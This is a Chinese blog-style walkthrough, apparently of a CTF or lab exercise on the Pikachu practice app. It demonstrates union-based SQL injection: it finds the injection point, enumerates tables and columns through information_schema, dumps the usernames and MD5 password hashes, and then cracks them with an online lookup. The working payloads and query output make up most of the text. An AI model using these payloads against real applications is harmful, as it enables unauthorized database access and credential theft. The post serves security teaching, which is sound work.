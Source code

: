 ```yaml
---
layout: post
title: "通过information_schema拿下数据库案例演示"
date:   2024-9-29
tags: [SQL注入, CTF, WEB]
comments: true
author: MK-KM1542
---
```


information_schema 是什么

在 mysql 中，自带的**information_schema**这个表里面存放了大量的重要信息。
比如 :

1. **SCHEMATA 表**:提供了当前 mysql 实例中所有**数据库的信息**。
2. **TABLES 表**:提供了关于数据库中的**表的信息(包括视图)**。
3. **COLUMNS 表**:提供了表中的**列信息**。

通过**information_schema**和**union**操作，我们可以查询到数据库中所有表的列信息

# 完整演示

以字符型注入为例

## 检查是否存在注入点

输入定界符或引用符
在这里我们输入单引号`'`,报错，说明参与了后台的字符串拼接，可以进行注入。

```sql
# 报错信息
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1
```

## order by 确定字段数

输入，根据返回信息确定字段数为`2`

```sql
kobe' order by 5#
kobe' order by 3#
kobe' order by 2#
```

## union 查询数据库基础信息

```sql
kobe' union select version(),database()#
kobe' union select user(),database()#
# version(); //取的数据库版本5.7.26
# database();//取得当前的数据库root
# user(); //取得当前登录的用户root@localhost
```

## information_schema 查询表名

```sql
# 获取表名:
select id,email from member where username = 'kobe' union select table_schema,table_name from information_schema.tables where table_schema='root';
# payload:
kobe' union select table_schema,table_name from information_schema.tables where table_schema='root'#
```

输入 payload，返回:

```sql
your uid:3
your email is: kobe@pikachu.com

your uid:root
your email is: httpinfo

your uid:root
your email is: member

your uid:root
your email is: message

your uid:root
your email is: users

your uid:root
your email is: xssblind
```

得到表名：

- httpinfo
- member
- message
- users
- xssblind

## 进一步查询列名

查**users**

```sql
#获取列名:
select id,email from member where username = 'kobe' union select table_name,column_name from information_schema.columns where table_name='users';
# payload:
kobe' union select table_name,column_name from information_schema.columns where table_name='users';#
```

输入 payload，返回:

```sql
your uid:3
your email is: kobe@pikachu.com

your uid:users
your email is: USER

your uid:users
your email is: CURRENT_CONNECTIONS

your uid:users
your email is: TOTAL_CONNECTIONS

your uid:users
your email is: id

your uid:users
your email is: username

your uid:users
your email is: password

your uid:users
your email is: level
```

得到列名：

- USER
- CURRENT_CONNECTIONS
- TOTAL_CONNECTIONS
- id
- username
- password
- level

## 获取数据

查**username**和**password**

```sql
# 获取内容
select id,email from member where username= 'kobe' union select username,password from users;
# payload:
kobe' union select username,password from users#
```

输入 payload，返回:

```sql
your uid:3
your email is: kobe@pikachu.com

your uid:admin
your email is: e10adc3949ba59abbe56e057f20f883e

your uid:pikachu
your email is: 670b14728ad9902aecba32e22fa4f6bd

your uid:test
your email is: e99a18c428cb38d5f260853678922e03
```

得到数据：

- admin:e10adc3949ba59abbe56e057f20f883e
- pikachu:670b14728ad9902aecba32e22fa4f6bd
- test:e99a18c428cb38d5f260853678922e03

password 的 md5 值，可以用网站进行解密
[md5 在线解密破解,md5 解密加密](https://www.cmd5.com/)
查询结果：

- admin:123456
- pikachu:000000
- test:abc123

# 总结

根据以上演示，我们可以通过 sql 注入漏洞，使用 information_schema 表，查询到数据库信息，列名，表名，数据。
